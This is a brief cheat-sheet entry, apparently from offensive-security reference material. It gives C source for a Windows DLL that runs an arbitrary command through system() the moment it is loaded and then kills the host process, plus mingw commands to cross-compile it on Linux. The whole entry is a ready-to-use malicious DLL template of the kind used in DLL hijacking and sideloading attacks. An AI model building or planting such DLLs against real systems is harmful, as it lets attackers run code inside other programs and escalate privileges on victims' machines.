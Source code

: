 # Windows DLL Source

The following C source code will run `$COMMAND`.

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("$COMMAND");
        ExitProcess(0);
    }
    return TRUE;
}
```

For x64 compile (on Linux) with:

```bash
# apt install gcc-mingw-w64
x86_64-w64-mingw32-gcc source.c -shared -o $OUTPUT_FILE
```

For x86 compile (on Linux) with:

```bash
# apt install gcc-mingw-w64
i686-w64-mingw32-gcc source.c -shared -o $OUTPUT_FILE
```
